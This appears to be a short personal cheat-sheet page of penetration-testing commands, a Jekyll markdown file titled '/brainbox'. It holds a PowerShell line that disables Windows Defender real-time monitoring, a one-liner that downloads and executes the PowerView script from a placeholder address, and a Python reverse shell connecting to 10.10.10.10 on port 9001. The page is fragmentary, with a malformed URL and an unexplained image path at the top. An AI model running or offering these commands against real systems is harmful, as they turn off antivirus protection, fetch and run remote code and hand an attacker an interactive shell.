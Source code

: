 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
# Patch AMSI or disable AV
<br>
 ```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_Devps1')
 ```
  
</blockquote></details>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```